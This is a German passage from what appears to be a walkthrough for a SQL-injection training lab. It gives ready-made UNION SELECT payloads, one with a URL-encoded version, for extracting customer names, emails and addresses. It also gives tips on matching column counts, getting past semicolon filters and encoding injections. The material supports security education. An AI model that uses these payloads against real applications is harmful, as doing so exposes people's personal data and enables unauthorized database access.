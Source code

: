 ### Level 11: Gezielte Datenabfrage

**Problem:** Name, E-Mail und Adresse für kunden_id = 3
**Lösung:** UNION SELECT mit genau 3 Spalten
```
3 UNION SELECT name, email, adresse FROM kunden WHERE kunden_id=3 --
```

**URL-codiert:**
```
3%20UNION%20SELECT%20name,%20email,%20adresse%20FROM%20kunden%20WHERE%20kunden_id=3%20--
```

## Häufige Probleme und Lösungen

### Problem: Spaltenanzahl stimmt nicht überein

**Symptom:** Fehler "The used SELECT statements have a different number of columns"

**Lösung:** Spaltenanzahl anpassen mit NULL-Werten
```
' UNION SELECT spalte1, NULL, NULL FROM tabelle --
```

### Problem: Semikolon nicht erlaubt

**Symptom:** Semikolons werden gefiltert

**Lösung:** Nur UNION verwenden, keine zusätzlichen Statements
```
' UNION SELECT spalte1, spalte2 FROM tabelle --
```

### Problem: Nur eine Zeile erlaubt

**Symptom:** Mehrere Ergebnisse werden abgelehnt

**Lösung:** Gezielte WHERE-Bedingung verwenden
```
' UNION SELECT spalte1 FROM tabelle WHERE bedingung --
```

### Problem: URL-Encoding

**Symptom:** Sonderzeichen funktionieren nicht in URLs

**Lösung:** Proper URL-Encoding verwenden
- Leerzeichen: `%20`
- Apostroph: `%27`
- Komma: `,` (meist nicht nötig)

## Best Practices für SQL-Injektionen

### 1. Systematisches Vorgehen
